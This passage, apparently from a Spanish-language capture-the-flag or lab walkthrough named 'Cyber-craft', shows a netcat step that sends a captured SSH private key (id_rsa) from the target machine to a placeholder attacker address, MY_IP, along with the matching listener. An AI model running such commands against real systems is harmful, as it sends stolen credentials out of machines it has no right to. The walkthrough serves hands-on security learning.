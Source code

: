 <img src="imgs/Cyber-craft/Cyber-craft13.png">

* Podemos pasar el archivo copiando y pegando pero como estamos practicando vamos a transferirlo por netcat(nc).

        nc MY_IP 4443 -q 0 < id_rsa # -q 0 hace que cuando se trasfiera el archivo se cierre la conexión automáticamente.
        nc -nlvp 4443 > id_rsa # Desde su maquina trasfiere el archivo recibido a uno llamado id_rsa

<img src="imgs/Cyber-craft/Cyber-craft14.png">
